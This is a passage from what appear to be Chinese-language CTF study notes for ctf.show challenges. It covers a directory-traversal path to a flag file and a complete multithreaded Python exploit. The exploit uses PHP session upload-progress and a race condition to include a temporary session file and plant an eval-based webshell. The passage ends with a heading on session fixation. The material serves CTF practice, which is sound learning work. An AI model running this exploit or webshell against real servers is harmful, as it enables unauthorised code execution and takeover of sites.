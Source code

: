 目录穿越，不能../开头，加个不存在的开头`zsm/../../../../../../../../flag.txt`

## 临时文件包含 

这个脚本一把梭哈

```python
import io
import threading

import requests

# 如果题目链接是https，换成http
url = 'http://2f6bf14f-8f83-463c-9bc4-c12112acacc0.challenge.ctf.show/'
sessionid = 'ctfshow'

def write(session): # 写入临时文件
    while True:
        fileBytes = io.BytesIO(b'a'*1024*50) # 50kb
        session.post(url,
        cookies = {'PHPSESSID':sessionid},
        data = {'PHP_SESSION_UPLOAD_PROGRESS':'<?php file_put_contents("shell.php","<?php highlight_file(__FILE__);eval(\$_GET[1]);?>");?>'},
        files={'file':('1.jpg',fileBytes)}
        )

def read(session):
    while True:
        session.get(url + '?path=/tmp/sess_' + sessionid) # 进行文件包含
        r = session.get(url+'shell.php') # 检查是否写入一句话木马
        if r.status_code == 200:
            print('OK')
            return ''

evnet=threading.Event() # 多线程

session = requests.session()
for i in range(20):
    threading.Thread(target = write,args = (session,)).start()
for i in range(20):
    threading.Thread(target = read,args = (session,)).start()

evnet.set()
```

本质是条件竞争？

# 第四章

## Session固定攻击 
